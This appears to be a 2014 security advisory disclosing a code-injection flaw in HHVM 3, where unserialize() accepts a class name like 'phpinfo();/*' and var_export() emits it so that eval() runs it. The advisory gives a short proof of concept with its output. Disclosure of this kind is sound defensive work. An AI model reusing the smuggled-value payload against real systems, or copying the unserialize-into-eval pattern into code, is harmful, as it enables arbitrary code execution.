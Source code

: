 ### Code Injection Vulnerability via unserialize() Function and var_export() Function in HHVM 3
> Taoguang Chen <[@chtg](http://github.com/chtg)> - 2014.10.29

>HHVM's var_export() function wrongly handles an undefined class, and unserialize() function wrongly handles an invalid classname.

##HHVM's var_export() function
**HHVM's var_export() function had a parse error when exporting an undefined class:**

``` php
<?php

$str = 'O:7:"phpinfo":0:{}';
$obj = unserialize($str);
var_dump($obj);
var_export($obj);
```
The outputs in PHP >= 5.1:

```php
object(__PHP_Incomplete_Class)#1 (1) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(7) "phpinfo"
}
__PHP_Incomplete_Class::__set_state(array(
   '__PHP_Incomplete_Class_Name' => 'phpinfo',
))
```
The outputs in HHVM 3:

``` php
object(__PHP_Incomplete_Class)#1 (1) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(7) "phpinfo"
}
phpinfo::__set_state(array(
))
```
## HHVM's unserialize() funciton
**HHVM's unserialize() funciton had a classname parse error when unserializing object:**

``` php
<?php

$str = 'O:12:"phpinfo();/*":0:{}';
$obj = unserialize($str);
var_dump($obj);
```
The outputs in PHP >= 5.1:

``` php
Notice: unserialize(): Error at offset 13 of 24 bytes in ...
bool(false)
```
The outputs in HHVM 3:

``` php
object(__PHP_Incomplete_Class)#1 (1) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(12) "phpinfo();/*"
}
```

##Code Injection Vulnerability
**Exploit these bug, it is possible to inject arbitrary code. The codes below shows a dangerous way to use unserialize() function and var_export() function :)**

``` php
<?php

$str = 'O:12:"phpinfo();/*":0:{}';
$obj = unserialize($str);
// var_export($obj);
eval('$str = ' . var_export($obj, true) . ';');
```
The outputs in HHVM 3:

``` php
// phpinfo();/*::__set_state(array(
// ))
// ok! phpinfo() function executed:)
HipHop
```
